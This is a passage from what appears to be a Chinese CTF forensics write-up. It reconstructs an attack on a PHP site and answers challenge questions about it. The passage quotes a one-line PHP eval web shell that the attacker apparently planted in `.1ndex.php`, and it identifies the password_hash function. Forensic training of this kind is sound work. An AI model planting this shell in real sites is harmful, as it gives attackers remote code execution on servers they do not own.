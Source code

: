 ```plain
<?php eval($_POST[hi]); ?>
```

于是后面的代码执行就顺理成章。发现后面对一些 php 文件进行有导出成 txt 的操作。  
[![](assets/1702520939-49e67a731371d8c43d6916728053d8f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180918-ad90d6bc-999f-1.png)  
看到 4.txt，就是`Authentication.php`的代码内容，可以看到代码注释是`Create password hash from plaintext password.`。加密函数用的是`password_hash`。  
[![](assets/1702520939-a0c27e3de4e5265877e72b4707f09589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180932-b5931f82-999f-1.png)  
那么这道题的答案就是**password\_hash**

### mid-3

> 题目内容：写入的第一次的 shell 的连接密码是多少？

在上题说过，第一次写入文件是`.1ndex.php`，把写入的文件内容找到。  